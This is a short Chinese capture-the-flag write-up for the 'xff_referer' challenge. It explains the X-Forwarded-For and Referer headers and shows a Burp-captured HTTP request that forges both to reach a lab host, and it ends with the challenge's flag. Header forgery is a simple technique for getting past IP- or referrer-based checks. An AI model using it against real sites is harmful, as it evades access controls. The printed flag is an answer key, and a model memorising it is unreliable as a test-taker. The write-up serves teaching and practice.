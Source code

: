 ## xff_referer

X老师告诉小宁其实xff和referer是可以伪造的。

---

### X-Forwarded-For refer

* xff：X-Forwarded-For（XFF）是用来识别通过HTTP代理或负载均衡方式连接到Web服务器的客户端最原始的IP地址的HTTP请求头字段。
* refer：HTTP来源地址。 是HTTP表头的一个字段，用来表示从哪儿链接到当前的网页，采用的格式是URL。
  简单的讲，referer就是告诉服务器当前访问者是从哪个url地址跳转到自己的

**xff和referer是HTTP协议首部中的两个字段，分别指出发送方最原始的IP地址，和你从哪个页面的链接进入的这个页面。**

### 修改request
Brupsuit 抓包 后修改后 Forword
```http request
GET / HTTP/1.1
Host: 61.147.171.105:51503
X-Forwarded-For:123.123.123.123
Referer:https://www.google.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



### flag
cyberpeace{839abfe38282bbee5348399cfc2830c2}